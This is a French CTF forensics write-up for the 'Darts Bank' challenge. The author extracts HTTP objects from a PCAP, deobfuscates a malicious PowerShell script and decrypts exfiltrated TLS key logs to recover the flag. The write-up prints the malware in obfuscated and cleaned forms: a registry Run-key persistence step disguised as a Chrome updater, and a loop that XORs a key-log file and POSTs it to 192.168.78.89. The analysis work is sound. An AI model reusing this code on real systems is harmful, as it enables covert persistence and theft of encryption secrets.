




# Darts Bank

## Challenge
> Attention : ce challenge contient du code à portée malveillante. Bien que l'auteur se soit efforcé de le rendre relativement inoffensif, il convient de prendre les mesures d'isolation adéquates s'il devait être exécuté. L'organisation décline toute responsabilité en cas de dommages à votre système.

Je me dirigeais vers l'épreuve de lancer de fléchettes quand j'ai fait une découverte horrifiante : on m'a dérobé ma fléchette porte-bonheur ! Pourtant, cette dernière était bien sécurisée grâce à ma banque à fléchettes, DartsBank, et cette dernière a toutes les protections qui s'imposent... Même le petit cadenas vert ! Je crois avoir remarqué des choses étranges sur le réseau, vous pouvez y jeter un œil ?

## Inputs
- PCAP file: [dart.pcapng](./dart.pcapng)

## HTTP encrypted traffic
We open the `PCAP` file in `Wireshark`, revealing some `http` traffic with `POST` requests to 192.168.78.89 containing `base64` encoded contents:



We can extract that using the `Wireshark's export utility` to extract objects from the `http` traffic:



```console
$ ll export/
-rw-r--r-- 1 thesee thesee 2,1K avril 24 16:33 'index(1).html'
-rw-r--r-- 1 thesee thesee 3,1K avril 24 16:33 'index(2).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(3).html'
-rw-r--r-- 1 thesee thesee 3,7K avril 24 16:33 'index(4).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(5).html'
-rw-r--r-- 1 thesee thesee 2,1K avril 24 16:33 'index(6).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(7).html'
-rw-r--r-- 1 thesee thesee  11K avril 24 16:33 'index(8).html'
-rw-r--r-- 1 thesee thesee 1,1K avril 24 16:33 'index(9).html'
-rw-r--r-- 1 thesee thesee  207 avril 24 16:33  index.htm
-rw-r--r-- 1 thesee thesee  42K avril 24 16:33  index.html
```

So we get those `base64` encoded contents in the `index(*).html` files, but `base64` decoding them does not buy us anything: this is encrypted somehow.

We also have a `PowerShell` script in `index.html`.

## Powershell obfuscated script
The `Powershell` script `index.html` contains some `obfuscation` and some `base64` encoded commands. Especially:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc))>$env:TEMP\run.ps1;New-ItemProperty -Path Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run -Name ChromeUpdateChecker -Value "powershell -ep Bypass -File $env:TEMP\run.ps1" -PropertyType String -Force;powershell -ep Bypass -File $env:TEMP\run.ps1;
```

Where this long variable `base64` decodes into the following, where I truncated the huge byte array from the `$aaaaaaaaaaaa` variable:
```powershell
$aaaaaaaaaaaaa=0;$aaaaaaaaaaaaaa="$env:TEMP\defender-res.txt";$aaaaaaaaaaaa=[byte[]](215,(...),120);while($true){$aaaaaaaaaaaaaaa=Get-Item -Path $aaaaaaaaaaaaaa;$aaaaaaaaaaaaaaaa=$aaaaaaaaaaaaaaa.Length;if($aaaaaaaaaaaaaaaa -gt $aaaaaaaaaaaaa){$aaa=[System.IO.File]::Open($aaaaaaaaaaaaaa,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);$aaa.Seek($aaaaaaaaaaaaa,[System.IO.SeekOrigin]::Begin)|Out-Null;$aaaaaaaaaaaaaaaaaaa=New-Object byte[] ($aaaaaaaaaaaaaaaa - $aaaaaaaaaaaaa);$aaa.read($aaaaaaaaaaaaaaaaaaa,0,$aaaaaaaaaaaaaaaa - $aaaaaaaaaaaaa)|Out-Null;for($i=0;$i -lt $aaaaaaaaaaaaaaaaaaa.count;$i++){$aaaaaaaaaaaaaaaaaaa[$i]=$aaaaaaaaaaaaaaaaaaa[$i] -bxor $aaaaaaaaaaaa[$i % $aaaaaaaaaaaa.count];}$data=[Convert]::ToBase64String($aaaaaaaaaaaaaaaaaaa);Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;$aaa.Close()|Out-Null;}$aaaaaaaaaaaaa=$aaaaaaaaaaaaaaaa;Start-Sleep -Seconds 5;}
```

This gives the following after some `deobfuscation` (the byte array is still truncated):
```powershell
$var13=0;$var14="$env:TEMP\defender-res.txt";$var12=[byte[]](215,(...),120)
while($true)
{
    $var15=Get-Item -Path $var14;
    $var16=$var15.Length;
    if($var16 -gt $var13)
    {
        $aaa=[System.IO.File]::Open($var14,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
	$aaa.Seek($var13,[System.IO.SeekOrigin]::Begin)|Out-Null;
	$var19=New-Object byte[] ($var16 - $var13);
	$aaa.read($var19,0,$var16 - $var13)|Out-Null;
	for($i=0;$i -lt $var19.count;$i++)
	{
	    $var19[$i]=$var19[$i] -bxor $var12[$i % $var12.count];
	}
	$data=[Convert]::ToBase64String($var19);
	Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;
	$aaa.Close()|Out-Null;
    }
    $var13=$var16;
    Start-Sleep -Seconds 5;
}
```

We just encovered the encryption in place:
- files are `xored` with the `byte array`
- output is `base64` encoded
- result is sent as data in a `HTTP POST` request to 192.168.78.89

## Decryption
Decryption is just a matter of storing that `byte array` and applying the `xor` and `base64` decoding to the `index(*).html` payload we gathered:

```python
import sys
from base64 import b64decode
from byte_array import get_bytearray

L = get_bytearray()
size = len(L)

def xor(b1, b2):
    return bytes(a ^ b for a, b in zip(b1, b2))

filename = sys.argv[1]
with open(filename, 'rb') as f:
    data = f.read()

data = b64decode(data)

dec = b''
for i in range(len(data)):
    #print(i, L[i % size], int.to_bytes(L[i % size], 1, 'big'), data[i])
    dec += xor(int.to_bytes(data[i], 1, 'big'), int.to_bytes(L[i % size], 1, 'big'))


filename += '.dec'
with open(filename, 'wb') as f:
    f.write(dec)
```

We can automate the decryption on all files like so for instance:
```console
$ for file in $(ls export/index\(?\).html); do python3 dec.py $file; done
```

After decryption, we get `SSLKEYLOG` files, containing the `SSL session keys` to decrypt the traffic:
```console
$ cat index\(1\).html.dec
CLIENT_HANDSHAKE_TRAFFIC_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 d5fd56bbfae94de7038670d87ad2471cb5f8f25751b8fdc0d3e074fc7af14255
SERVER_HANDSHAKE_TRAFFIC_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 b4f7d0f5009a88ab0aaadee10e7808390fb1a95aa3a4027f4c01e2d11268cad7
CLIENT_HANDSHAKE_TRAFFIC_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d e2c25fba320825085a7d55fe9f3495a5b1f8b86f5cac4c8ade994dcc9e0e4ae5
SERVER_HANDSHAKE_TRAFFIC_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d b8aa942efb689a636bc4264c2b51498d3c44280bd6c322a6891484f7822eecb4
CLIENT_TRAFFIC_SECRET_0 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 7776b27a24e6f1fed0b33f1f2952de59d9947cfc6aff2029bb51222813a57865
SERVER_TRAFFIC_SECRET_0 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 e8ccf744cc00540fe43aedcabb3ea6c3978fd5e7e61d6437ea850774025f1c6a
EXPORTER_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 931f4971adac8dd4b762d8193d85acdb21807b0cb117676f10e6f70d61114068
CLIENT_TRAFFIC_SECRET_0 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d c4f9d32e7c371b887063805910630934d6c43eefc5270eb7e09d61ec650996a1
SERVER_TRAFFIC_SECRET_0 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d 528ea08b976af1a0521178064de30dc900b31bdce671faf5028cf95750e9c4e8
EXPORTER_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d 8ddc145e725ba3ad2e66c6768420207275b85e73f357093c3eee01b91bffca8b
```

## Decoding SSL traffic
In `Wireshark`, in the `TLS protocol` settings we can try these `SSLKEYLOG` files one by one in field `(Pre)-Master-Secret log filename` and look for `404CTF` in the packet details, assuming we can grab the flag at this point, and we do using the `4th SSLKEYLOG file` !





## Python script for decryption
Complete solution in [dec.py](./dec.py)

## Flag
> 404CTF{En_pl31n_d4ns_l3_1337_v1@_sUp3r_TLS_d3crypt0r}
